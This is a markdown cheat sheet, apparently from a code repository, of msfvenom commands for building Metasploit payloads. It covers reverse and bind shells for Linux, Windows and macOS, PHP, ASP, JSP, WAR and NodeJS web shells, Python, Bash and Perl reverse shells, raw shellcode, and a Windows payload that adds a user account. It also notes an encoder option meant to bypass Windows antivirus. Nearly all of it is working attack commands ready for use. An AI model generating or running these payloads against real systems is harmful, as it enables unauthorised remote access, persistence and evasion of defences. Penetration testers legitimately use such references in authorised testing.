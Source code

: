 # MSFVenom

## List payloads
```bash
msfvenom -l payloads # lists payloads
msfvenom -l encoders # lists encoders
```
## Useful parameters
```bash
-b "\x00\x0a\x0d" 
-f c 
-e x86/shikata_ga_nai -i 3 # Bypass Windows AV
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```
## Binary Payloads
### Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Linux Bind Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```

### Linux 64-bit Reverse Shell
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > FILENAME.elf
```
***Change to x86 for 32-bit***

### Linux Bind Shell
```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > FILENAME.exe
```
### Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > FILENAME.exe
```
### Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > FILENAME.exe
```
### Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > FILENAME.macho
```
### Mac Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > FILENAME.macho
```
## Web payloads
### PHP Meterpreter Reverse TCP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```
### JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```
### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```
### NodeJS
```
msfvenom -p nodejs/shell_reverse_tcp LHOST<IP Address> LPORT=<Your Port> -f js > shell.js
```

## Scripting payloads
### Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```
### Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
### Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```
## Shellcode
### Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
### Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
### Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
## Create user
```
msfvenom -p windows/adduser USER=<USER> PASS=<PASSWORD> -f exe > adduser.exe
```

## Manage unstable shells (Windows)
```
AutoRunScript=post/windows/manage/migrate
```
